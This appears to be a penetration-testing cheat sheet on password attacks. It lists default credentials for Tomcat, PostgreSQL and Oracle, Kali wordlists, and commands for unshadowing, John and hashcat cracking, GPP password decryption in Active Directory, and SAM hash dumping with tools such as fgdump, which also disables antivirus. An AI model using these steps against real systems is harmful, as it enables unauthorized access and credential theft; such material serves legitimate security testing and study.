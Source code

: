 # Default credentials


## password
Kali Dictionaries
- /usr/share/john/password.lst
- /usr/share/dirb/wordlists/big.txt
- /usr/share/wfuzz/wordlist/general/big.txt
- /usr/share/wordlists/rockyou.txt             (unzip it before use)
- /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt


## Listes
SecLists: wget https://github.com/danielmiessler/SecLists/archive/master.zip


## ftp default passwd

````
USER anonymous
````


## Apache Tomcat Default Credentials

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|

## PostgreSQL

|Username     |Password     |
|-------------|-------------|
|postgres     |postgres     |
|postgres     |password     |
|postgres     |admin        |
|admin        |admin        |
|admin        |password     |


## Oracle

|  Username   |   Password      |
|-------------|-----------------|
|SYSTEM       |MANAGER          |
|SCOTT        |TIGER            |
|SYS          |CHANGE_ON_INSTALL|
|OUTLN        |OUTLN            |
|DBSNMP       |DBSNMP           |
|CTXSYS       |CTXSYS           |
|MDSYS        |MDSYS            |


## hash-identifier
    hash-identifier xxxxxx

## Unshadow /etc/passwd+/etc/shadow

    unshadow password_file shadow_file > new_password_list

## John 

    john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256 password_list

## Misconfigured AD
    net use z: \\(target_hostname)\SYSVOL
    dir /s Groups.xml
    type Z:\local.domain\Policies\{84583021-C460-486C-83E1- FA1EC8CA84FC}\Machine\Preferences\Groups\Groups.xml
    gpp-decrypt SvtusBQWJgAFrFPTyPH9clizXPQBDqDDGzlSDxKogcz, password will be outputted


## SAM Cracking: WCE32/WCE64
    About: wce32.exe (wce64.exe) can be used to attempt cracking of user passwords in memory
    wce32.exe -w 
    wce64.exe -w

## SAM Cracking: FGdump
    FGdump.exe can be used to crack local SAM hashes in memory. 
    The program uses the IPC$ share to connect and additionally attempts to disable antivirus that may be running on the host
    fgdump.exe, then "type 127.0.0.1.pwdump" to list found pwd

## SAM Cracking: PWdump
    About: PWdump.exe can be used to crack local SAM hashes in memory. Does not have the added bonus like FGdump of disabling antivirus. This will need to be done prior to running the program
    Usage: pwdump.exe (host)
    pwdump.exe
    pwdump.exe 127.0.0.1

## Keepass
```
     keepass2john tim.kdbx 
tim:$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da
https://hashcat.net/wiki/doku.php?id=example_hashes
$keepass$*2*6000*222*f3 => 
13400 :	KeePass 2 AES / without keyfile 	$keepass$*2*6000*222*a279e37c
13400 : Keepass 2 AES / with keyfile 	$keepass$*2*6000*222*15b6

cat tim.keepass
$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da

hashcat -m 13400 tim.keepass

=> simplementeyo

```


## Online hash crackers:

### Hashkiller (Windows/NTLM):
    https://hashkiller.co.uk/ntlm-decrypter.aspx

### Crackstation (MD5):
    https://crackstation.net

### Offensive security (MD5):

    http://cracker.offensive-security.com

### RDCMan - Decrypt Microsoft Remote Desktop Manager passwords (RDCman)
    Open the .rdg file with a text editor and copy in the password section
    
